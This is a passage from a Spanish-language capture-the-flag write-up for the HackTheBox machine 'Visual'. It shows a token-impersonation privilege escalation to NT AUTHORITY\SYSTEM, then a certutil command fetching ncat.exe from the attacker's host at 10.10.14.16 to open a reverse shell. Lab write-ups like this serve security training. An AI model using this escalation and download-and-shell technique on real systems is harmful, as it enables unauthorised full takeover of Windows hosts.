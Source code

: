 ```bash
[*] CreateNamedPipe \\.\pipe\b6d9d945-848f-4080-ac4d-c4b0d89fb1fd\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000dc02-13d8-ffff-72d8-3246f7d401c5
[*] DCOM obj OXID: 0x748efe1457c81df0
[*] DCOM obj OID: 0xc098342ea791c384
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 852 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1456
nt authority\system
```

Tenemos ejecución como **system**, solo nos falta ganar acceso con una consola interactiva.

Para ello transfiero un binario estático de ncat para mandarme una shell como **system**.

```cmd
c:\xampp\htdocs\uploads>certutil -urlcache -f http://10.10.14.16/ncat.exe ncat.exe
certutil -urlcache -f http://10.10.14.16/ncat.exe ncat.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

![](@assets/HackTheBox/Visual/ncat.png)

![](@assets/HackTheBox/Visual/root.png)

Happy Hacking!
